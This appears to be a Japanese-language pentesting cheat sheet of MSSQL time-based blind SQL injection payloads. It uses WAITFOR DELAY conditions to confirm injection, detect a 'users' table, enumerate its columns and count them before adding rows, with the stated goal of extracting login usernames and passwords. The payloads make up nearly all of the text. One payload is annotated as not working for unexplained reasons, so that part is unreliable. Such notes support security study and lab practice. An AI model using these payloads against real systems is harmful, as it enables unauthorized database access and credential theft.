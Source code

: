 ※参考資料
[https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

---
## ## MSSQL(SQL Serverとも呼ばれる)
### ### タイムベース
```sh
'; IF (1=1) WAITFOR DELAY '0:0:10';-- - True
'; IF (1=2) WAITFOR DELAY '0:0:10';-- - Faluse
```

### ### テーブルの列挙(ユーザテーブルの場合はuser,users,usernameがよさげらしい)
```sh
'; IF ((select count(name) from sys.tables where name = 'users')=1) WAITFOR DELAY '0:0:10';-- - MS SQL
```

### ### 列の列挙
上の例をそのままで行くと、usersテーブルに含まれる列名を特定する。
ログイン画面の場合はログインするために必要なユーザ名とパスワードを取得できるか確認する。
```sh
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name = 'username')=1) WAITFOR DELAY '0:0:10';--
	# like演算子で特定をするなら以下の様になる。

'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'u%')=1) WAITFOR DELAY '0:0:10';--
↑これでできると思ったができなかった。なぜ？
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'username')=1) WAITFOR DELAY '0:0:10';--

```

### ### テーブルに行を追加するためにするべきこと。
```sh
1. テーブルに含まれるすべての列の列挙を行う必要がある。

'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>2) WAITFOR DELAY '0:0:10'; -- -
2つ以上の列があるかどうか。

'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' )>3) WAITFOR DELAY '0:0:10'; -- - 
3つの以上列があるかどうか。
↑ここで2つ目でタイムベースがうまくいかなければ列は3つあるといえる。

2. 以下の方法を使用してもうもう一つの判明してない列名を列挙する。
'; IF ((select count(c.name) from sys.columns c, sys.tables t where c.object_id = t.object_id and t.name = 'users' and c.name like 'u%')=1) WAITFOR DELAY '0:0:10';--
```
